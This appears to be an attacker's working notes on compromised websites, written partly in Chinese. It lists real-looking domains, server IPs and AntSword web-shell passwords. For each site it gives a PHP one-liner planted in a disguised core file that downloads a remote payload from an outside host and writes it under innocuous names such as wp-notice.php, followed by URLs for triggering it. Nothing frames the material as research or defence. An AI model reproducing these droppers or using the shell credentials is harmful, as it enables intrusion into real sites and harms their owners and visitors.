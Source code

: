bee:


## https://www.fhmv.com/xmlrpc.php 蚁剑密码：ant  站群 | 163.181.140.147
只修改了www站点
代码更新： 
www.fhmv.com/wp-includes/class-wp-menu.php
<?php file_put_contents("/www/wwwroot/www.fhmv.com/wp-includes/class-wp-footer.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查： 
www.fhmv.com/wp-includes/class-wp-footer.php?w=be&d=up

## https://sc.mohen999.com/config.php 蚁剑密码：ant  站群 | 45.195.54.233


代码更新： 
https://weike.mohen999.com/wp-includes/class-wp-section.php
<?php file_put_contents("/www/wwwroot/weike.mohen999.com/wp-notice.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查： 
https://weike.mohen999.com/wp-notice.php?w=be

代码更新： 
https://xueke.mohen999.com/wp-includes/class-wp-section.php
<?php file_put_contents("/www/wwwroot/xueke.mohen999.com/wp-notice.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查： 
https://xueke.mohen999.com/wp-notice.php?w=be

代码更新： 
https://sc.mohen999.com/cache/menu_arr.cache.php
<?php file_put_contents("/www/wwwroot/sc.mohen999.com/hook/admin.hook.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查： 
https://sc.mohen999.com/hook/admin.hook.php?w=be&d=up

